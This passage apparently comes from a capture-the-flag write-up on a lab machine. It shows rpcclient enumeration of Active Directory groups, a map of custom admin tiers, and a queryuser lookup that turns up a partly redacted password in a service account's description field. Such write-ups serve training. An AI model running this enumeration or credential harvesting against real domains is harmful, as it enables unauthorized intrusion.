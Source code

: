 ```
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
group:[t1_admins] rid:[0x44f]
group:[t2_admins] rid:[0x450]
group:[t0_admins] rid:[0x451]
group:[shibuya] rid:[0x454]
group:[ssh] rid:[0xc1d]
group:[t3_admins] rid:[0x1005]
```
Okay, now it is clearer, lets target for groups like t0_admins, t1_admins, t2_admins, t3_admins, ssh because they are not standard or default groups in the domain, after a while of searching, I got a map right here to make it more visualize
```
Domain
│
├── t0_admins
│   ├── Lesley.Lynch
│   ├── Leon.Wells
│
├── t1_admins (member of ssh)
│   ├── Norman.Clayton
│   ├── Nigel.Mills
│   ├── [SSH Access]
│
├── t2_admins (member of ssh)
│   ├── Paula.Davies
│   ├── Simon.Watson
│   ├── [SSH Access]
│
└── t3_admins
    ├── svc_autojoin
``` 
What is more is when query the user svc_autojoin, in the description of this service user, we will get a random string looks like a password
```
rpcclient $> queryuser 0x453
        User Name   :   svc_autojoin
        Full Name   :   svc_autojoin
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :   K5&<REDACTED>KWhV
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Wed, 31 Dec 1969 16:00:00 PST
        Logoff Time              :      Wed, 31 Dec 1969 16:00:00 PST
        Kickoff Time             :      Wed, 13 Sep 30828 19:48:05 PDT
        Password last set Time   :      Fri, 14 Feb 2025 23:51:49 PST
```